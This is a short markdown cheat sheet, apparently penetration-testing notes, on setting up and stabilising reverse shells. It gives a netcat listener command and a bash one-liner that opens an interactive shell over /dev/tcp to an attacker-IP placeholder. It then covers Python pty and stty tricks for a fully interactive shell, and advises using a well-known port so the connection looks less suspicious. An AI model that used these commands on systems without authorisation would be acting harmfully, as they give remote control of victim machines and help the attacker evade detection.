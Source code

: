 ## Everything about reverse shells

Target machines initiates the connection to attacker sets up listener.  
Firewalls mostly filter incoming traffic only so reverse shell will often get through.  

### Step 1

Setup a listener

nc -lvnp <portnumber>

* If target is running linux then bash shell is a good option

/bin/bash -i >& /dev/tcp/<attacker ip>/<portnumber> 0>&1

Cheat sheet - http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

Output port should be a well known port so that its less suspicious  

## Stablizing a shell

1) Python  

python -c "import pty;pty.spawn('/bin/bash')"  

Looks better but tab, up-down keys and Ctrl C still dont work  

export TERM=xterm-256color gives access to commands like clear  

Backgroud the shell using Ctrl+Z  

stty raw -echo; fg Does two things, turns off terminals echo (so autocomplete, arrow keys and ctrl+c works now). And then brings the shell back to foreground.  

2) Using rlwrap => https://github.com/dvanmosselbeen/security-cheat-sheet/wiki/reverse-shell#technique-2-with-rlwrap


